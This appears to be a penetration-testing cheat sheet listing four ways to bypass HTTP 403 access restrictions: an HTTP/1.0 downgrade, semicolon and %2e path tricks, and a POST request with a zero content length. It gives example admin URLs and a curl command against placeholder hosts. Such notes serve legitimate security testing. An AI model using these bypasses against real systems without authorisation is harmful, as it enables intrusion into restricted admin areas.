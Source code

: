 # 403 Forbidden Bypasses

- HTTP protocol version downgrade
- Semicolon bypass (;)
- Modify the request method and content length
- Append characters

---
### HTTP Protocol Version Downgrade

Method:
  - Capture the request in BurpSuite - Send to Repeater
  - Change the http protocol version from **1.1** to **1.0** and clear all the other headers from the request
  - Forward the request to the Server
  - Reference: [Link](https://medium.com/@abbasheybati1/403-bypass-lyncdiscover-microsoft-com-db2778458c33)
---
### Semicolon Bypass (;)

Method:
Blocked (403 Forbidden):
```CSS
https://www.hackme.in/admin
```
Bypassed (200 OK):
```CSS
https://www.hackme.in/;/admin
https://www.hackme.in/;/admin/config/listConfiguration
```
---
### Modify the Request Method and Content Length

Method:
  - GET => POST
	- Content-Length: 0
```
curl -X POST https://domain.com/admin -H "Content-Length: 0"
```
---
### Append Characters

Method:
  - Append `%2e` before the directory/ file name

Blocked (403 Forbidden):
```
https://domain.com/admin
```
Bypassed (200 OK):
```
https://domain.com/%2e/admin
```
---

